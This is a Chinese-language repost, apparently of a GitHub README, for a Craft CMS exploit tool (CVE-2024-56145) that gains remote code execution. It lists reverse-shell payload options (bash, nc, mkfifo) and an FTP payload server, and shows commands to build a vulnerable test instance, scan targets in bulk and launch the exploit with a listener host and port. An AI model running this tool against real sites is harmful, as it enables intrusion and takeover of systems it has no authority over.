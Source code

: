 #  CVE-2024-56145：Craft CMS 漏洞利用工具   
 独眼情报   2024-12-22 02:51  
  
这款工具专门用于利用由 Assetnote 研究团队发现的 Craft CMS 漏洞。该漏洞源于系统对用户提供的模板路径处理不当，攻击者可通过精心构造的载荷实现**远程代码执行（RCE）**🛠️。  
  
🙏 **特别感谢 Assetnote 团队在安全领域的贡献与研究。**  
## ✨ 功能特点  
- 🚀 **自动化 FTP 服务器**用于投放恶意载荷  
  
- 🧪 **反向 Shell 载荷生成器**，支持多种方式（bash、nc、mkfifo）  
  
- 🔍 **漏洞检测器**用于识别易受攻击的目标  
  
- 🖥️ **多线程支持**实现更快扫描  
  
- 🛠️ **简单易用的命令行界面**，反馈清晰明了  
  
## 🛡️ 搭建测试环境  
  
按以下步骤搭建 Craft CMS 测试实例：  
```
mkdir exploit-craft && \
cd exploit-craft && \
# 配置用于 Craft CMS 的 DDEV 项目
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="mysql:8.0" \
  --nodejs-version="20" && \
# 创建 DDEV 项目
ddev start -y && \
# 使用指定版本创建 Craft CMS
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
# 安装特定版本的 CMS
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
# 设置 Craft CMS 安全密钥
ddev craft setup/security-key && \
# 安装 Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
# 为 PHP 启用 register_argc_argv
mkdir -p .ddev/php/ && \
echo "register_argc_argv = On" > .ddev/php/php.ini && \
ddev restart && \
# 最后一步，输出提示信息并启动项目
echo '准备就绪！' && \
ddev launch

```  
## 🚨 使用方法  
  
使用 --help 参数查看可用命令：  
```
python exploit.py --help

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnRnRBRX4qM3qO0uX82qibfG4Aem2K16XdY2InH7PgWhrVSU2Hj7J90gwssBuvgnXQhqia0UTrzcXicMA/640?wx_fmt=png&from=appmsg "")  
### 🚀 漏洞利用命令  
  
攻击目标：  
```
python exploit.py exploit -u <目标URL> -lh <本地主机> -lp <本地端口> -px <载荷类型>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnRnRBRX4qM3qO0uX82qibfG4EH93g0fiaibCRyO9AgIXKChrr3BPbH5PK2jwMfCb5WMzBuo9alcCJcUQ/640?wx_fmt=png&from=appmsg "")  
#### ⚙️ 参数说明：  
- -u / --url：目标网址（必填）  
  
- -lh / --lhost：用于接收反向 Shell 的本地 IP（必填）  
  
- -lp / --lport：监听器端口（必填）  
  
- -fh / --ftp-host：FTP 服务器主机  
  
- -fp / --ftp-port：FTP 服务器端口  
  
- -px / --payload：载荷类型（bash、nc、mkfifo），默认：bash  
  
#### 🧪 示例：  
```
python exploit.py exploit -u https://example.com -lh 192.168.1.10 -lp 4444 -fh 127.0.0.1 -fp 2121 -px bash

```  
### 🔍 检查命令  
  
检查目标是否存在漏洞：  
```
python exploit.py check -u <目标URL> -f <URL列表文件> -t <线程数> -o <输出文件>

```  
#### ⚙️ 参数说明：  
- -u / --url：单个目标 URL  
  
- -f / --file：包含多个待扫描 URL 的文件  
  
- -t / --threads：扫描并发线程数  
  
- -o / --output：保存结果的输出文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnRnRBRX4qM3qO0uX82qibfG4crFaibKXsLyooCdHZxxJPFEuQpZLVpofoD0KYz5YC5uicOf9xjb98NGw/640?wx_fmt=png&from=appmsg "")  
#### 🧪 示例：  
```
python exploit.py check -f urls.txt -t 10 -o results.txt

```  
  
请谨慎使用，遵守道德规范！✨  
>   
> https://github.com/Chocapikk/CVE-2024-56145  
  
  
  
